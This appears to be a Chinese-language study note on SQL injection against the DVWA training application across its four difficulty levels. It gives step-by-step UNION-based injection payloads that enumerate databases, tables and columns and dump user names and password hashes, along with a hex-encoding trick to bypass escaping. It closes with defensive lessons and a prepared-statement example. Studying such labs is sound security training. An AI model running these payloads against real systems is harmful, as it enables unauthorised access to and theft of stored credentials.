





# SQL Injection,
# 注意：所有select后面的第一个值的后面需要加上collate utf8_general_ci，否则会报错**
# LOW等级实操
## 1.原理
1. 在id里面输入1
2. 正常返回结果类似：
```html
ID: 1
First name: admin
Surname: admin
```
3. 说明后端执行了
```javascript
SELECT first_name, last_name 
FROM users 
WHERE user_id = '1';
```

## 2.判断是否存在SQL注入
1. 输入1'
2. 如果页面报SQL错误，例如
```html
You have an error in your SQL syntax
```
**说明输入被直接拼接进了SQL语句，存在SQL注入风险**

## 3.使用恒真条件绕过
1. 输入1' OR '1'='1
2. 可能返回多个用户信息
3. 对应的SQL逻辑类似于:
```html
SELECT first_name, last_name 
FROM users 
WHERE user_id = '1' OR '1'='1';
```
4. 因为'1' = '1'，永远为真，所以会返回表中的多条数据
## 4.使用注释符截断后续语句
mysql中常见注释符
```
-- 
#
/**/
```
>比如1' OR '1'='1' #

## 5.判断字段数量
**使用ORDER BY判断查询结果有几列**
1. 输入1' ORDER BY 1 --
如果正常，就继续
2. 1' ORDER BY 2 --
如果正常，就继续
3. 1' ORDER BY 3 --
如果报错，说明查询结果只有两列
4. 因此原SQL查询大概返回了两列：first_name, last_name

## 6.使用UNION SELECT测试回显位
因为由上述内容可知字段数位2，所以使用
```html
1' UNION SELECT 1,2 --
```

## 7.获取当前数据库名
1. 输入1' UNION SELECT database(),2 --
2. 可能返回dvwa
3. 也可以1' UNION SELECT database(),user() --
4. database()用户查看当前数据库名
5. user()用于查看当前数据库连接用户

##  8.获取 MySQL 版本
1. 输入1' UNION SELECT version(),2 --
2. 1' UNION SELECT @@version,2 --

## 9.获取当前数据库中的表名
1. 输入
```html
1' UNION SELECT table_name,2 
FROM information_schema.tables 
WHERE table_schema=database() --
```
2. 可能看到类似表名: guestbook.user

## 10.获取users表的字段名
1. 输入
```html
1' UNION SELECT column_name collate utf8_general_ci,2 
FROM information_schema.columns 
WHERE table_name='users' --
```

2. 可能得到：
```html
user_id
first_name
last_name
user
password
avatar
last_login
failed_login
```
3. 如果需要限定当前数据库，可以写
```html
1' UNION SELECT column_name collate utf8_general_ci,2 
FROM information_schema.columns 
WHERE table_schema=database() 
AND table_name='users' -- 
```

## 11读取users表中的用户名和密码哈希
1. 输入：1' UNION SELECT user collate utf8_general_ci,password FROM users --
2. 可能得到：
```javascript
admin
5f4dcc3b5aa765d61d8327deb882cf99
```
3. 这个密码哈希对应的明文通常是：password

## 12.使用contact合并显示:
1. 你可以输入1' UNION SELECT user,concat(first_name,':',last_name,':',password) FROM users --
2. 也可以输入1' UNION SELECT user,concat(user,':',password) FROM users --

# SQL Injection -Medium 等级实操
## 1. 源码分析
```HTML
$id = mysqli_real_escape_string($conn, $_POST['id']);

$query = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
注意这里的WHERE user_id = $id
id没有被单引号包裹，所以这是一个数字型注入
```
## 2. burp操作
1. 可以使用burp suite抓包修改参数
2. 设置浏览器代理
3. 在DVWA页面选择一个ID
4. 点击submit
5. 在Burp厘米拦截请求
6. 找到参数id=1,修改为id=1 or 1=1

## 3.数字型注入测试
1. 因为是数字型，所有不需要单引号
2. 输入或修改参数为1 or 1=1
3. 如果返回多条用户信息，说明注入成功

## 4.判断字段数
1. 1 order by 1
2. 1 order by 2
3. 1 order by 3
>如果order by 3 报错，说明字段数为2
## 5. Union select 测试
>输入：1 Union SELECT 1,2
如果页面回显1和2，说明可以继续利用

## 6.获取数据库名
>输入1 UNION SELECT database(),2


## 7.获取表名
>输入1 UNION SELECT table_name collate utf8_general_ci,2 FROM information_schema.tables WHERE table_schema=database()


## 8.获取字段名
>1 UNION SELECT column_name collate utf8_general_ci,2 FROM information_schema.columns WHERE table_name=0x7573657273


1. 由于编码不一样，需要在column后面加上collate utf8_general_ci
2. Medium 难度使用了 mysqli_real_escape_string 转义，所以你的 'users' 被转成了 \'users\'，变成了一段不完整的字符串,所以'users' 的十六进制是 0x7573657273
3. 一行写完，不要有回车。

## 9.读取用户名的和密码
>输入1 UNION SELECT user,password FROM users


## 10.学习重点
1. 前端限制不等于安全
2. 下拉框也可以通过抓包修改参数
3. 数字型注入不需要单引号
4. mysqli_real_escape_string() 不是万能防御
5. 如果 SQL 语句没有使用参数化查询，仍然可能注入
6. 十六进制可以绕过部分字符串过滤

# High难度
```html
SELECT first_name, last_name 
FROM users 
WHERE user_id = '$id' 
LIMIT 1;
```
>limit 1 会限制返回一条数据，但是并没有真正解决SQL注入问题
## 1判断注入点
1. 输入1'
如果报错，说明仍然存在字符型注入

## 2使用注释符肉啊过LImit1
>1' OR '1'='1' # 或者1' OR '1'='1' --
可以把后面的limit 1 注释掉
## 3判断字段数
1. 1' order by 1 #
2. 1' order by 2 #
3. 1' order by 3 #
>如果order by 3 报错，说明字段数为2

##  4UNION SELECT测试
>1' UNION SELECT 1,2 --
## 5获取数据库名
>1' UNION SELECT database(),user() --
## 6获取表名
>1' UNION SELECT table_name collate utf8_general_ci,2 FROM information_schema.tables WHERE table_schema=database() --
## 7获取字段名
>1' UNION SELECT column_name collate utf8_general_ci,2 FROM information_schema.columns WHERE table_name='users' --
## 获取users表数据
>1' UNION SELECT user,password FROM users --
## 学习重点
1. 增加 LIMIT 1 不是有效防御
2. SQL 注入的本质是 SQL 拼接
3. 注释符可以截断后续 SQL
4. 只限制返回数量不能阻止数据泄露
5. 真正有效的防御是参数化查询、预编译语句、严格类型校验

# Impossible等级分析
impossible通常已经使用了比较正确的防御方式
```html
$stmt = $db->prepare(
    "SELECT first_name, last_name FROM users WHERE user_id = ?"
);

$stmt->bind_param("i", $id);
$stmt->execute();
```
## 为什么该难度无法注入
1. 因为SQL和数据被分开处理
2. 例如用户输入1' OR '1'='1
3. 在预编译语句中，它不会被当作 SQL 逻辑执行，而是被当作普通字符串或参数值。
4. 也就是说,数据库收到的是：WHERE user_id = ?
5. 参考值是1' OR '1'='1
6. 而不是拼接成WHERE user_id = '1' OR '1'='1'